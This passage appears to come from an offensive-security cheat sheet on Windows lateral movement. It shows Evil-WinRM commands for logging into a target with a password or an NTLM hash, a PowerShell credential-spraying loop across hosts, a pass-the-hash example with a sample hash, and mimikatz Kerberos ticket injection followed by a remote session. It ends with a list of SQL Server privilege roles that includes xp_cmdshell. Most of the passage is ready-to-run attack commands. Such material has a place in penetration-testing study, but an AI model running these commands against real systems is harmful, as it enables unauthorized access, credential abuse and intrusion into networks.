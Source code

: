 #### **Using Evil-WinRM (Linux)**
```bash
# Install Evil-WinRM
gem install evil-winrm

# Connect to target with credentials
evil-winrm -i 172.16.5.5 -u username -p password

# Connect with hash (Pass-the-Hash)
evil-winrm -i 172.16.5.5 -u username -H NTLM_HASH
```

### **Common PSRemote Attack Vectors**

#### **1. Credential Spraying**
```powershell
# Test credentials against multiple hosts
$computers = @("host1", "host2", "host3")
$cred = Get-Credential

foreach ($computer in $computers) {
    try {
        Invoke-Command -ComputerName $computer -Credential $cred -ScriptBlock {hostname} -ErrorAction Stop
        Write-Host "Success: $computer" -ForegroundColor Green
    }
    catch {
        Write-Host "Failed: $computer" -ForegroundColor Red
    }
}
```

#### **2. Pass-the-Hash via WinRM**
```bash
# Using Evil-WinRM with NTLM hash
evil-winrm -i 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

#### **3. Golden/Silver Ticket Usage**
```powershell
# Import Golden Ticket and use for WinRM
mimikatz # kerberos::ptt ticket.kirbi
Enter-PSSession -ComputerName "target" -Authentication Kerberos
```

---

## 🗃️ **SQL Server Administrative Access**

### **SQL Server Privilege Escalation Overview**

#### **SQL Server Roles and Permissions**
- **sysadmin**: Full administrative privileges
- **db_owner**: Database ownership privileges
- **db_ddladmin**: DDL administrative privileges
- **public**: Default role for all users
- **xp_cmdshell**: Extended stored procedure for command execution
